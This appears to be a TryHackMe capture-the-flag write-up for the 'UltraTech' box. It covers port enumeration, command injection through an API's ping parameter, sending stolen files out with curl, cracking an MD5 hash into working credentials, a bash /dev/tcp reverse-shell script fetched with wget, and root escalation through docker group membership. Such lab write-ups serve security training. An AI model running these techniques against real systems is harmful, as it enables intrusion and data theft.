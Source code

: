 # UltraTech Writeup (THM)

### tags
* security
* pentest
* enumeration
* web

### set of questions 1
* which software is using the port 8081 ?
* which other non-standard port is used ?
* which software using this port ?
* which GNU/Linux distribution seems to be used ?
* the software using the port 8080 is a REST api, how many of its routes are used by the web application ?

### set of questions 2
* There is a database lying around, what is its filename? 
* What is the first user's password hash?
* What is the password associated with this hash?

### set of questions 3
* What are the first 9 characters of the root user's private SSH key? 

---

## set of questions 1

we ping the target and the ICMP TTL indicates us that it's a Linux Machine  
![](./contents/screenshots/screenshot1.png)  

with nmap we discover 4 open ports  
![](./contents/screenshots/screenshot2.png)  

this is enough to answer the first 4 questions :  
* *which software is using the port 8081 ?* 		**Node.js**
* *which other non-standard port is used ?* 		**31331**
* *which software using this port ?* 			**Apache**
* *which GNU/Linux distribution seems to be used ?*	**Ubuntu**

the last question is *the software using the port 8080 is a REST api, how many of its routes are used by the web application ?*  
i suppose they are talking about the 8081 port, not 8080  
now we use gobuster on the port 8081 to find the routes and we find 2, */auth* and */ping*

---

## set of questions 2

now we use gobuster on port 31331 and we discover the login page */partners.html*  
looking the code, we can see that it's using the API on port 8081  
every 10 seconds, it uses */ping?ip=<***IP***>* to confirm that the host is up  
when we try to log in, it uses */auth?login=<***username***>&password=<***password***>*  

i confirm that */ping* is using the command **ping**, so it might vulnerable to **command injection**  
after some tries, this is the injection that works for me  
![](./contents/screenshots/screenshot3.png)  

since i'm not able to make it display the output, i send the output of "ls -lha" to a file, and send it to my machine with curl  
![](./contents/screenshots/screenshot4.png)  
![](./contents/screenshots/screenshot5.png)  
![](./contents/screenshots/screenshot6.png)  

we see that the answer to the question *There is a database lying around, what is its filename?* is **utech.db.sqlite**  

we use the same technique to transfer de ddbb to our machine  
we see the user **r00t** with the hash **f357a0c52799563c7c7b76c1e7543a32**  
we search the hash on google, and we find [this page](https://md5.j4ck.com/14777) that includes that hash  
the unhashed password is **n100906**  

so we have answered the remaining questions, and we have the credentials **r00t:n100906** that work on */partners.html*  
Great !!!

NOTE : We also get another credentials **admin:mrsheafy**

---

## command injection script

im gonna be a little fancy here before continuing  
this is just for the sake of it, but i'm practicing bash scripting and i just learned how to color output  
lets make an script that applies the technique used on */ping* to achieve easy RCE and a reverse shell  

so this is the way it works : we start the script with params **remote ip** and **local ip**  
also, we need to start a listener on port 80 of our machine  
![](./contents/screenshots/screenshot7.png)  

now we enter a command and the output will be displayed on the listener  
![](./contents/screenshots/screenshot8.png)  

the script will end, and if we need to enter another command we have to execute the script and start the listener again  

### reverse shell

after trying different techniques, the one that worked for me was :  

create the following script **shell.sh** on my machine
```bash
#!/bin/bash

bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1
```

start an http server  

download it on the remote machine with **wget** 

give permissions to it with ```chmod +x shell.sh```

start a listener on the local port specified

execute it with ```./shell.sh```

we have a reverse shell on the remote machine !!!

---

## root flag

the last question is What are the first 9 characters of the root user's private SSH key?  
this is kind of asking for root.txt  
the last step was completely unnecesary since the credentials for "r00t" work on ssh  

being logged as "r00t" on the machine, we discover he is a member of the group "docker"  
we can create a docker container that includes the whole filesystem  
we will be root inside the docker, therefore we are root on the whole filesystem  

the command to achieve this is ```docker run -v /:/mnt -it <image>```, but we need an image  
we find the images on the system with ```docker images``` and we find one called "bash"  
we use the above command and now we have a shell in a docker with a folder called */mnt* that includes the whole filesystem  
and that ends the CTF !!!

aditionally, we could modify the passwd and shadow files to create a new super user  


